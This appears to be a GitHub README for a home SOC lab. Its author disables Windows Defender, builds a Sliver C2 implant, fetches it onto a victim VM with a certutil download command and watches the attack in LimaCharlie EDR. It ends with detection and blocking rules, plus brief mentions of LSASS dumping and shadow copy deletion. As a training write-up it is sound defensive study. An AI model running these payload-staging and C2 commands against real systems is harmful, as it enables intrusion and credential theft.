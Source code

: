 # EDR-Attack-and-Defense-Lab

In this foundational SOC Home Lab I spun up a Win10 vm as my victim client and disabled Windows Defender EDR. Set up a C2 framework using Sliver for emulating threat-actor behavior by crafting my very own malicious payload. Threw attacks, caught the detections and watched the malicious traffic. Set up automated D&R rules to mitigate these attacks.

Eric Capuano's Guide: https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro?utm_campaign=post&utm_medium=web

### Setup:

First I spun up both virtual machines. The attack machine will run on Ubuntu Server, and the endpoint will be running Windows 11. In order for this lab to work smoothly I turned off all the Windows Security solutions (Virus & threat protection, Microsoft Defender Firewall, etc.) on the Windows 11 VM, making it my vulnerable victim machine. I am also going to be installing Sliver on the Ubuntu machine as my primary attack tool, and setting up LimaCharlie on the Windows machine as an EDR solution. LimaCharlie will have a sensor linked to the Windows machine, and will be importing sysmon logs.

### Skills Learned

- Advanced understanding of EDR concepts and practical application.
- Proficiency in analyzing and interpreting network telemetry.
- Ability to generate, deploy, transfer, and execute a Command & Control payload on the Windows endpoint using Sliver.
- Enhanced knowledge of Windows commands to gather information and assess system privileges.
- Familiarization with normal vs. anomalous activity to enhance threat detection capabilities.
- Development of critical thinking and problem-solving skills in cybersecurity.
- Understanding the process of performing hash scans on sites like VirusTotal to identify known malware. As well as understanding false negative results when dealing with a newly crafted payload.
- Detection rule creation and response implementation on a SecOps Cloud Platform such as LimaCharlie.


### Tools Used

- LimaCharlie EDR for endpoint detection and response capabilities,
monitoring and capturing telemetry, creating and applying detection rules.
- Sysmon integrated with LimaCharlie for detailed network logging and event capture on the Windows endpoint.
- VirusTotal used for scanning and analyzing the hash of executables to identify known malware.
- Sliver C2 Server for crafting and deploying a malicious payload.

## Steps

*Ref 1: Windows Security controls off*

![image](https://github.com/user-attachments/assets/415b034b-db82-4da7-bdf9-88b55b2f52c3)

![image](https://github.com/user-attachments/assets/9d6597e1-a266-4ab8-8852-72c1754aeede)

![image](https://github.com/user-attachments/assets/0e89acb1-c5fe-4243-85f5-938961e2f978)

![Disabling WinDefender via Registry Editor](https://github.com/user-attachments/assets/4e244807-80e6-41bd-9445-be3569724400)

#### Now that my Windows machine is vulnerable, it's time to SSH into my Ubuntu AttackBox.

*Ref 2: Using PuTTY to connect via SSH*
![Screenshot 2024-09-02 113412](https://github.com/user-attachments/assets/97f91ab3-c686-439a-b0c2-6c7954162a34)

#### Once in my Ubuntu machine I use the _'sudo su'_ command to temporarily gain root access, navigate to the sliver directory and launch Sliver-server.

*Ref 3: Launching Sliver-server*

![image](https://github.com/user-attachments/assets/bb40665c-01da-4dda-a41b-4d2cfb7b4e79)

Using the command _'generate --http 192.168.247.129 --save /opt/sliver'_, I generate a Command & Control payload executable.

*Ref 3: Generating C2 session payload*

![SLIVER C2 payload GOOD_TWINE](https://github.com/user-attachments/assets/a1d170c5-f92d-4f9b-b112-41a524bf70ec)

![GOOD_TWINE implant](https://github.com/user-attachments/assets/5409a0bf-3760-48b1-a7be-91e6f5fc16c3)

Running the command _'implants'_ above, you’ll see it has created my payload with the random name **GOOD_TWINE**. 
_We will be using this payload to infect the Windows machine in the next step..._

#### I exited Sliver and made sure I was in the sliver directory. 
To download the C2 easily from the Linux VM to the Windows VM I spun up a temporary web server using Python

_'python3 -m http.server 80'_

![image](https://github.com/user-attachments/assets/14db0600-1b15-4087-a406-707710d04588)

#### I switched my attention to the Windows VM and launched an Administrative PowerShell console.
Executing the command _'certutil.exe -f -urlcache http://192.168.247.129/GOOD_TWINE.exe GOOD_TWINE.exe'_ starts the download of my payload.

![Malware Staged 2](https://github.com/user-attachments/assets/8fd84d5e-a28e-48cd-a13f-abc199bb91e3)


![We are In!](https://github.com/user-attachments/assets/299b4831-809b-474f-8e88-d56db49344c5)

#### Now that we are hosting a live session between the two machines, I input the commands _'info' 'getprivs'_ and _'ps -T'_ to check my remote user privileges, information on the victim machine, and see the specific security products used.
_In this case my victim machine is using Sysmon64 and Windows Smart Screen_.

![Inside the Windows machine](https://github.com/user-attachments/assets/0352ae0d-93e0-47cb-ae54-c729b6974974)

![Checking user privs](https://github.com/user-attachments/assets/4bf919a8-2b4f-4892-88e2-3a1a14a2b577)

![Identifying running processes in remote system](https://github.com/user-attachments/assets/a5abe060-f99e-404f-a6fa-2422107eb357)

#### We can see processes like _SeDebugPrivilege_ and _SeImpersonatePrivilege_ are Enabled, which means we are logged in as Admin.
![Implant admin privs on Windows machine](https://github.com/user-attachments/assets/628cf8ab-4473-40b4-9a46-36a155edf91c)


### Now time to go into Lima Charlie to see the noise!

Using my host machine I click the sensors tab, to see that my Windows machine is online.

![LimaCharlie Win11 vm Sensor](https://github.com/user-attachments/assets/683eea85-3abc-4784-878d-6666f4e0c2f7)

We can look inside our LimaCharlie SIEM and see telemetry from the attack. We can identify the payload thats running and see the IP its connected to.

![Unusual NOT signed process hmm](https://github.com/user-attachments/assets/ee04912e-9120-4411-a4f0-007de47cc5f9)
![Network Logs of our attack](https://github.com/user-attachments/assets/3ecf5dd1-1a41-4f31-8aec-ebd87f6debe6)
![Timeline of Execution](https://github.com/user-attachments/assets/dcc8720a-b590-4373-aa7c-9c017b1fa2ca)


We can also use LimaCharlie to scan the hash of the payload through VirusTotal; however, it will yield no results since we just created the brand new payload ourselves!

![Virus NOT Detected](https://github.com/user-attachments/assets/8bea1003-0e8a-4de4-ac38-7e980d2d1379)

Now on the attack machine we can simulate an attack to steal credentials by dumping the LSASS memory. In LimaCharlie we can check the sensors, observe the telemetry, and write rules to detect the sensitive process.

Part 4 - Blocking an attack

Now instead of simply detection, we can practice using LimaCharlie to write a rule that will detect and block the attacks coming from the Sliver server. On the Ubuntu machine we can simulate parts of a ransomware attack, by attempting to delete the volume shadow copies. In LimaCharlie we can view the telemetry and then write a rule that will block the attack entirely. After we create the rule in our SIEM, the Ubuntu machine will have no luck trying the same attack again.

Part 5 - Tuning false positives

Part 6 - Trigger YARA scans with a detection rule











